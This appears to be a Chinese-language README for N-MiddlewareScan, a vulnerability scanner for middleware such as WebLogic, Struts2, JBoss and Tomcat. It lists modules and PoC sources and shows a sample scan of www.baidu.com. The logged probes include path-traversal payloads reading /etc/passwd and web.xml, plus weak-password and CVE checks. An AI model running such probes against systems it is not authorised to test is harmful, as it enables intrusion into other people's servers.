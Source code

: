 0.  
N-MiddlewareScan  
魔改，自写的一款中间件漏洞扫描脚本  
  
  
1.  
最近在看web中间件的漏洞  
看到一个三年前的脚本：https://github.com/ywolf/F-MiddlewareScan  
想着自己写一个中间件相关的，正是脚本好写，poc和exp难  
github链接：https://github.com/nihaohello/N-MiddlewareScan  
  
  
  
2.  
#plugins vuln poc exp  
主要是下面模块：  
1.axis  
xss  弱密码  
2.glashfish  
3.jboss  
4.resin  
5.weblogic  
6.tomcat  
7.struts2  
8.IIS  
9.fastcgi  
10.phpcgi  
11.apache  
12.nginx  
13.spring mvc  
  
  
借用和拉用了（有些也许没有写到）：  
axis，glassfish，nginx，iis：  
https://github.com/rabbitmask/WeblogicR  
  
  
jboss:  
https://github.com/search?l=Python&q=jboss&type=Repositories  
https://github.com/SkewwG/VulScan/blob/master/Jboss/CVE-2017-12149.py  
  
weblogic:  
https://github.com/search?l=Python&q=weblogic&type=Repositories  
https://www.exploit-db.com/  :有poc  
https://nvd.nist.gov/vuln/detail/CVE-2017-10271  
https://www.oracle.com/technetwork/topics/security/cpuoct2017-3236626.html  
https://github.com/rabbitmask/WeblogicR    poc来自这  
https://github.com/kingkaki/weblogic-scan  
  
  
tomcat:  
https://github.com/search?l=Python&q=tomcat&type=Repositories  
https://github.com/SkewwG/VulScan  
  
  
struts2:  
https://github.com/search?l=Python&q=struts2&type=Repositories  
  
  
spring：  
http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=spring  
https://www.exploit-db.com/  18年  
  
  
  
  
  
  
3.  
测试例子：  
python N-MiddlewareScan.py -u https://www.baidu.com  
  
第一部分standard_poc 测试开始:  
***********************  
https://www.baidu.com  CVE_2018_10661 测试结束  
https://www.baidu.com/axis2/axis2-web/HappyAxis.jsp信息扫描完成  
https://www.baidu.com/axis2/axis2-admin/login弱口令扫描完成  
https://www.baidu.com/j_security_check?loginButton=Login 测试结束  
https://www.baidu.com  exist Directory_traversal vuln 测试结束  
https://www.baidu.com/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system:type=ServerInfo 扫描完成  
https://www.baidu.com/web-console/Invoker 扫描完成  
https://www.baidu.com/invoker/JMXInvokerServlet 扫描完成  
https://www.baidu.com/admin-console/ 扫描完成  
https://www.baidu.com/resin-admin/j_security_check?j_uri=index.php扫描完成  
https://www.baidu.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd扫描完成  
https://www.baidu.com/resin-doc/viewfile/?contextpath=/otherwebapp&servletpath=&file=WEB-INF/web.xml扫描完成  
https://www.baidu.com/%20..\web-inf扫描完成  
https://www.baidu.com/%3f.jsp扫描完成  
https://www.baidu.com/resin-doc/examples/jndi-appconfig/test?inputFile=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd扫描完成  
  
  
  
第一部分 standard_poc 没有测试出任何的漏洞。  
  
  
  
第二部分：  
开始测试特定的poc脚本：  
***********************  
对tomcat weak password 进行检测  
CVE_2015_4852 脚本出错  
CVE_2016_0638 脚本出错  
CVE_2016_3510 脚本出错  
CVE_2017_3248 脚本出错  
[-]目标weblogic未检测到CVE-2017-3506  
CVE_2018_2893 脚本出错  
CVE_2018_2628 脚本出错  
managerURL200 脚本出错  
uddi_ssrf 脚本出错  
CVE_2017_12149 检测函数出错  
https://www.baidu.com  
[36mCode by Lucifer.[0m  
[36m-------检测struts2漏洞--------  
目标url:https://www.baidu.com[0m  
[32m目标不存在struts2-005漏洞..[0m  
[32m目标不存在struts2-009漏洞..[0m  
[32m目标不存在struts2-013漏洞..[0m  
[36m检测struts2-016超时..[0m  
超时原因:  HTTPSConnectionPool(host='www.baidu.com', port=443): Read timed out. (read timeout=6)  
[32m目标不存在struts2-019漏洞..[0m  
[36m检测struts2-devmode超时..[0m  
超时原因:  HTTPSConnectionPool(host='www.baidu.com', port=443): Read timed out. (read timeout=6)  
[32m目标不存在struts2-032漏洞..[0m  
[32m目标不存在struts2-033漏洞..[0m  
[32m目标不存在struts2-037漏洞..[0m  
[32m目标不存在struts2-045漏洞..[0m  
[32m目标不存在struts2-046漏洞..[0m  
[32m目标不存在struts2-048漏洞..[0m  
[32m目标不存在struts2-020漏洞..[0m  
[32m目标不存在struts2-052漏洞..[0m  
[32m目标不存在struts2-053漏洞..[0m  
[32m目标不存在struts2-057漏洞..(只提供检测)[0m  
[-]不存在SpringCVE-2017-8046漏洞!  
[-] https://www.baidu.com 不存在IIS PUT上传  
Server 不存在 IIS shortname vulnerable  
Server 不存在 IIS shortname vulnerable  
[-]不存在Nginx越界读取缓存漏洞（CVE-2017-7529）漏洞...(低危)  
  
  
相关漏洞检测完成。  
